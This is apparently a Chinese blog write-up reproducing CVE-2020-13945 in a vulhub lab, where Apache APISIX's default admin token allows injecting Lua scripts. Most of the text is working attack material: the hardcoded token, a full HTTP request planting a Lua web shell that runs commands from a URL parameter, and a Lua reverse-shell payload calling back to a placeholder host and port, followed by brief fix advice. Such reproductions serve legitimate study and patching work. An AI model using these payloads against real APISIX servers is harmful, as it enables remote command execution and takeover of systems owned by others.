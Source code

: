 ```yaml
---
title: Apache APISIX 默认密钥漏洞（CVE-2020-13945）
author: jh2ng
cover: 'http://image.jh2ing.com/image-20220713114523793.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 38434
date: 2022-07-13 17:10:00
---
```


### Apache APISIX 默认密钥漏洞（CVE-2020-13945）

#### 漏洞描述

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

#### 影响版本

```
Apache APISIX 1.2
Apache APISIX 1.3
Apache APISIX 1.4
Apache APISIX 1.5
```

#### 环境搭建

![image-20220713134306426](http://image.jh2ing.com/image-20220713134306426.png)

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

![image-20220713114523793](http://image.jh2ing.com/image-20220713114523793.png)

#### 漏洞复现

访问`http://your-ip:9080/apisix/admin/routes`

![image-20220713152059058](http://image.jh2ing.com/image-20220713152059058.png)

返回`failed to check token`，通过利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![image-20220713165438253](http://image.jh2ing.com/image-20220713165438253.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

![image-20220713152335203](http://image.jh2ing.com/image-20220713152335203.png)

**反弹shell：**

编写LUA脚本

```lua
local _M={} 
 function _M.access(conf, ctx) 
 local s=require('socket') 
 local t=assert(s.tcp()) 
 t:connect('ip','端口') 
 while true do 
 	local r,x=t:receive();local f=assert(io.popen(r,'r')) 
 	local b=assert(f:read('*a'));t:send(b) 
 end 
 f:close();t:close()  
 end 
 return _M 
```

payload：

```
{
    "uri": "/shell",
"script": "local _M={} \n function _M.access(conf, ctx) \n local s=require('socket') \n local t=assert(s.tcp()) \n t:connect('ip','端口') \n while true do \n 	local r,x=t:receive();local f=assert(io.popen(r,'r')) \n 	local b=assert(f:read('*a'));t:send(b) \n end \n f:close();t:close()  \n end \n return _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![image-20220713165224995](http://image.jh2ing.com/image-20220713165224995.png)

访问对应url反弹shell：

![image-20220713164526251](http://image.jh2ing.com/image-20220713164526251.png)


#### 修复建议

- 修改Apache APISIX配置文件中 conf/config.yaml 的admin_key，禁止使用默认Token

- 若非必要，关闭Apache APISIX Admin API功能，或者增加IP访问限制

- 升级Apache APISIX 至最新版本
